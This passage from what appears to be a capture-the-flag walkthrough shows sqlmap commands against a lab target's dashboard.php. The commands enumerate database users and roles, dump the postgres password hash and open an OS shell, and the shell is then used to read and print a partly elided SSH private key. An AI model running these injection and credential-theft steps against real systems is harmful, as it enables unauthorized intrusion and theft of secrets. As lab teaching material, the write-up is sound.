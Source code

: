 ```txt
SYSCONFDIR,/etc/postgresql-common
VERSION,PostgreSQL 11.5 (Ubuntu 11.5-1)
```

Let's check what users we have access and which privileges that user has.

```txt
$ sqlmap -u $IP/dashboard.php --forms --cookie="PHPSESSID=v5098os3cdua2ps0nn4ueuvuq6" --batch --users
```

![1221481927212.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625879601334/Iv04MRhgU.png align="left")

```txt
$ sqlmap -u $IP/dashboard.php --forms --cookie="PHPSESSID=v5098os3cdua2ps0nn4ueuvuq6" --batch -U postgres --roles
```

![1282818797398.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625951019024/WZxWiadal.png align="left")

Ok, let's dump the password hash for `postgres` and exploit that `super` permission.

```txt
sqlmap -u $IP/dashboard.php --forms --cookie="PHPSESSID=v5098os3cdua2ps0nn4ueuvuq6" --batch --password
```

![2708755891538.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625879626411/IAyJBha1o.png align="left")

[Back to top](#contents) ⤴

# User shell

`sqlmap` presents easy way to gain shell when database user have enough privileges on database.

```txt
sqlmap -u $IP/dashboard.php --forms --cookie="PHPSESSID=v5098os3cdua2ps0nn4ueuvuq6" --batch --os-shell
```

![3162090529455.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880011508/zp2lOteVH.png align="left")

We've got the `postgres` user shell. And by using `id` we can see that user is in `ssl-cert` group. That means we should maybe find an SSH keys?

![4501945095047.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625880000639/vPaLErb5l.png align="left")

![2218217336621.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625879990698/Lx7SgGx71.png align="left")

Bingo.

```txt
os-shell> cat /var/lib/postgresql/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA0a5cdsLhNwBeZvZB5tYxL80+03AaJwcnAyEzffSXcluql1xNztZr
....
7Dj1cDAVWXOqAJO9Ks3PLh6P7eP36lg2w/4/CHkvTmdJ9yr7nLclP5QS/gWghlTl2SkoIq
r1Y3QWupZhHES9swAAABBwb3N0Z3Jlc0B2YWNjaW5lAQ==
-----END OPENSSH PRIVATE KEY-----
```
